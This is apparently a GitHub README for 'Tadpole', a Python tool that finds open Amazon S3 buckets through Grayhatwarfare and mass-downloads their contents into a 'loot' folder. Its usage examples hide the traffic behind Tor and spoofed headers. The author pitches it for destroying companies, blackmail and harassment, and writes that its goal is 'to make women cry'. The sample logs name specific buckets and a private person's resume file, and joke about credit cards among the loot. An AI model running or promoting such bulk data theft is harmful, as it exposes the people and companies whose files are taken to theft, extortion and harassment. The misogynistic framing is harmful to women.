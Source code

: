 # TadPole

Brought to you by an individual with questionable ethics and a moral compass that usually points towards Hell, is the release of Tadpole.

Tadpole is a Python 2.7.x written program that leverages [Grayhatwarfare](https://buckets.grayhatwarfare.com) to provide you with a simple an efficient way to demolish an entire company overnight, and an easy way to blackmail, and/or harass! What does that mean you ask? 

Well the main objective of Tadpole is to make women cry and infosec experts have a need to wear their brown pants, lets dig deeper into Tadpoles features;

- Provide a search query to connect to Grayhatwarfare and search for open S3 buckets (`-q/—query`)
- From said buckets connect and download all readable and open files out of the S3 bucket (`—swim`)
- Run your searches behind a proxy (`-P/—proxy`) or a random User-Agent (`—random-agent`) or pass in your own headers (`-H/—headers`)
- Search the downloaded files for relevant strings (`-s/—search`)

In a nutshell Tadpole is a program that will download available files out of an open S3 bucket, provided with the correct flags Tadpole will also connect to the discovered bucket and download all available files inside of the bucket.

# Installation

To install the program you will need `Python2.7` (3.x coming soon); and you will need to install the requirements:
```bash
pip install -r requirements.txt
```
That's all there is to it!

# Usage examples

Running tadpole without a command will drop you into the help menu:

```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py
------------------------------------------------------------------
  _            _____         ____  _ ______ 
 | |     /\   |  __ \       / __ \| |  ____|
 | |_   /  \  | |  | |_ __ | |  | | | |__   
 | __| / /\ \ | |  | | '_ \| |  | | |  __|  
 | |_ / ____ \| |__| | |_) | |__| | | |____ 
  \__/_/    \_\_____/| .__/ \____/|_|______|[][][]
                     | |                    
                     |_|   Aws Download Open buckEt files v(0.1)
------------------------------------------------------------------

[09:29:39][FATAL] must provide a search query with `-q/--query` flag
usage: tadpole.py [-h] [-q SEARCH-QUERY] [--random-agent] [--verbose]
                  [-P PROXY] [-H HEADER=1,HEADER=2,etc..] [-s STRING]
                  [--check-proxy] [--swim] [--limit AMOUNT]

optional arguments:
  -h, --help            show this help message and exit
  -q SEARCH-QUERY, --query SEARCH-QUERY
                        provide a search query to search open buckets with
  --random-agent        Use a random HTTP User-Agent
  --verbose             Run in verbose mode
  -P PROXY, --proxy PROXY
                        Use a proxy for the requests
  -H HEADER=1,HEADER=2,etc.., --headers HEADER=1,HEADER=2,etc..
                        Pass extra headers with your request
  -s STRING, --search STRING
                        Search for a file and output the location of it
  --check-proxy         Verify that your proxy is working correctly
  --swim                Swim upstream to the found bucket and try to pull
                        everything out of it
  --limit AMOUNT        Used in conjunction with `--swim` specify an amount of
                        buckets to pull (*default=300)
(bucketdump) TBG-a0216:tadpole admin$ 
```

In order to perform a search all you have to do is provide a search query using the `-q/--query` flag:

```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py -q 'database'
------------------------------------------------------------------
  _            _____         ____  _ ______ 
 | |     /\   |  __ \       / __ \| |  ____|
 | |_   /  \  | |  | |_ __ | |  | | | |__   
 | __| / /\ \ | |  | | '_ \| |  | | |  __|  
 | |_ / ____ \| |__| | |_) | |__| | | |____ 
  \__/_/    \_\_____/| .__/ \____/|_|______|[][][]
                     | |                    
                     |_|   Aws Download Open buckEt files v(0.0.11)
------------------------------------------------------------------

[08:53:19][INFO] searching for open s3 buckets with provided query: 'database'
[08:53:31][INFO] gathered a total of 200 files from 46 different bucket(s)
[08:53:31][INFO] downloading all discovered file(s)
[08:53:32][WARNING] unable to determine file length for file 'database-admin-logs2017-09-23-16-19-10-EE59F17B113A3816'
[08:53:32][ERROR] unable to download file: database-admin-logs2017-09-23-16-19-10-EE59F17B113A3816; access denied
[08:53:33][WARNING] large file being downloaded (Database.mdf), this could take a minute
...
```

You can also swim upstream to the bucket itself and try to download every single file from it:
```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py -q 'database' --swim
------------------------------------------------------------------
  _            _____         ____  _ ______ 
 | |     /\   |  __ \       / __ \| |  ____|
 | |_   /  \  | |  | |_ __ | |  | | | |__   
 | __| / /\ \ | |  | | '_ \| |  | | |  __|  
 | |_ / ____ \| |__| | |_) | |__| | | |____ 
  \__/_/    \_\_____/| .__/ \____/|_|______|[][][]
                     | |                    
                     |_|   Aws Download Open buckEt files v(0.0.11)
------------------------------------------------------------------

[08:55:20][INFO] searching for open s3 buckets with provided query: 'database'
[08:56:27][INFO] swimming upstream to 'http://beehivedev.s3.amazonaws.com'
[08:56:30][INFO] found a total of 1000 file(s) in S3 bucket 'http://beehivedev.s3.amazonaws.com', downloading a max of 300 file(s)
[09:03:59][WARNING] hit max download limit, leaving bucket
[09:03:59][INFO] swimming upstream to 'http://cotrafasocial.s3-us-west-2.amazonaws.com'
[09:04:05][INFO] found a total of 1000 file(s) in S3 bucket 'http://cotrafasocial.s3-us-west-2.amazonaws.com', downloading a max of 300 file(s)
```

You have the option to run behind a proxy using the `-P/--proxy` flag:

```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py -q 'resume' --swim --proxy socks5://127.0.0.1:9050
------------------------------------------------------------------
  _            _____         ____  _ ______ 
 | |     /\   |  __ \       / __ \| |  ____|
 | |_   /  \  | |  | |_ __ | |  | | | |__   
 | __| / /\ \ | |  | | '_ \| |  | | |  __|  
 | |_ / ____ \| |__| | |_) | |__| | | |____ 
  \__/_/    \_\_____/| .__/ \____/|_|______|[][][]
                     | |                    
                     |_|   Aws Download Open buckEt files v(0.0.11)
------------------------------------------------------------------

[09:08:51][INFO] searching for open s3 buckets with provided query: 'resume'
[09:10:20][INFO] swimming upstream to 'http://careerfoundry.s3-us-west-2.amazonaws.com'
[09:10:21][INFO] found a total of 7 file(s) in S3 bucket 'http://careerfoundry.s3-us-west-2.amazonaws.com', downloading a max of 300 file(s)
[09:10:27][WARNING] large file being downloaded (LinkedInMasterySolopreneurs101.pdf), this could take a minute
...
```

To increase the file cape from 300, you can specify it by using the `--limit` flag, the default limit is 300 files:

```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py -q 'resume' --swim --proxy socks5://127.0.0.1:9050 --limit 600
------------------------------------------------------------------
  _            _____         ____  _ ______ 
 | |     /\   |  __ \       / __ \| |  ____|
 | |_   /  \  | |  | |_ __ | |  | | | |__   
 | __| / /\ \ | |  | | '_ \| |  | | |  __|  
 | |_ / ____ \| |__| | |_) | |__| | | |____ 
  \__/_/    \_\_____/| .__/ \____/|_|______|[][][]
                     | |                    
                     |_|   Aws Download Open buckEt files v(0.0.12)
------------------------------------------------------------------

[09:22:12][INFO] searching for open s3 buckets with provided query: 'resume'
[09:23:17][INFO] swimming upstream to 'http://careerfoundry.s3-us-west-2.amazonaws.com'
[09:23:18][INFO] found a total of 7 file(s) in S3 bucket 'http://careerfoundry.s3-us-west-2.amazonaws.com', downloading a max of 600 file(s)
[09:23:22][WARNING] large file being downloaded (LinkedInMasterySolopreneurs101.pdf), this could take a minute
[09:23:26][WARNING] large file being downloaded (Quickstart Sales Guide.pdf), this could take a minute
[09:23:31][WARNING] large file being downloaded (Resume Template.zip), this could take a minute
[09:23:33][WARNING] unable to determine file length for file 'Resume+and+Letter+-+Mariana+Reynolds (1).pdf'
[09:23:33][WARNING] all files downloaded, leaving bucket
[09:23:33][INFO] swimming upstream to 'http://cc-com.s3-ap-southeast-2.amazonaws.com'
...
(bucketdump) TBG-a0216:tadpole admin$ 

```

You also have the option to pass your own headers with `-H/--headers` flag:

```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py -q 'test' -H X-Forwarded-For=1,X-Client=127.0.0.1
```

As well as running with a random User-Agent:

```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py -q --random-agent
```

Tadpole comes complete with a built in search tool to find the files you're looking for (don't mind the credit cards):

```bash
(bucketdump) TBG-a0216:tadpole admin$ python tadpole.py -s favicon.ico
------------------------------------------------------------------
  _            _____         ____  _ ______ 
 | |     /\   |  __ \       / __ \| |  ____|
 | |_   /  \  | |  | |_ __ | |  | | | |__   
 | __| / /\ \ | |  | | '_ \| |  | | |  __|  
 | |_ / ____ \| |__| | |_) | |__| | | |____ 
  \__/_/    \_\_____/| .__/ \____/|_|______|[][][]
                     | |                    
                     |_|   Aws Download Open buckEt files v(0.0.11)
------------------------------------------------------------------

[09:18:13][INFO] a total of 14 files matched your search
#1. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico.gzip(6)
#2. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico.gzip(5)
#3. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico
#4. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico(4)
#5. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico.gzip
#6. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico.gzip(1)
#7. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico(12)
#8. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico.gzip(2)
#9. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico.gzip(3)
#10. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico(10)
#11. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico(6)
#12. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico(2)
#13. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico(8)
#14. /Users/admin/bin/python/tadpole/loot/resume/cc-com.s3-ap-southeast-2.amazonaws.com/favicon.ico.gzip(4)
(bucketdump) TBG-a0216:tadpole admin$ 
```
